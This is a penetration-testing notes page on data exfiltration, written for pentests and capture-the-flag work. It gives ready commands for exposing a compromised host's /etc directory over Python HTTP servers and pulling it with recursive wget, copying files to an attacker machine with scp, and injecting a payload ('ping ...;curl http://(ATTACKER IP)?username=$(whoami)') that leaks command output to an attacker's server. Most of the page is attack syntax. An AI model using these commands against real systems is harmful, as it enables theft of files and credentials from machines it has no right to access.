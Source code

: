 # Data Exfiltration
In this module I will cover methods, applications, and syntax used for data exfiltration techniques that I have used during penetration testing or capture the flag.
## Python SimpleHTTPServer
If Python (2.x) is installed on the target system, you can simply start the [SimpleHTTPServer](https://www.pythonforbeginners.com/modules-in-python/how-to-use-simplehttpserver/) 
using the following command in whatever directory that you wish to share temporarily.
```
www-data@target-system:/etc# python -m SimpleHTTPServer 5432
```
And this will instantly share the files on the target system in `/etc` (as you see that is where I started the service) via HTTP on port `5432`
You can then use `wget` recursivley to pull all files found like so, from the attacker machine,
```
root@attacker-system:~/ctf/target/# wget -r http://(TARGET IP ADDRESS):5432 
```
## Python http.server
In Python 3, `SimpleHTTPServer` was merged with `http.server` and you can perform the same as we did in the previous version listing above with the syntax of,
```
www-data@target-system:~# python -m http.server 5432
```
## SCP (SSH)
If SSH is installed on the target system, we can simply use `scp` to exfiltrate data from the target server onto our attacker machine. First, we need to ensure that SSH is running on the attacker machine to accept the connection and file from the target.
Then, we can use the following syntax to transfer the file,
```
user@target-system:~$ scp -P (PORT OF SSH ON ATTACKER) (FILENAME) \
 (USER ON ATTACKER SYSTEM)@(ATACKER IP ADDRESS):/path/on/attacker/machine.extension
```
## HTTP Logs
If command injection is possible on the target server, but it's not possible to save files anywhere to create a shell (super-unprivileged user), we can use `curl` in combination with an interpolated command output to make an HTTP request to our local HTTP server on the attacker system as so,
```
ping 127.0.0.1;curl http://(ATTACKER IP ADDRESS)?username=$(whoami)
```
Then, in our local HTTP logs, we will see the output of `$(whoami)` as the `username` GET request parameter. 
# Data Infiltration
## FTP
You can use FTP for data infiltration on any OS system if you happen to find it installed on a target machine. Check out [/Post Exploitation/ftp.md](https://github.com/weaknetlabs/Penetration-Testing-Grimoire/blob/master/Post%20Exploitation/ftp.md) for more information on how to infiltrate data and binaries to a target system using FTP.
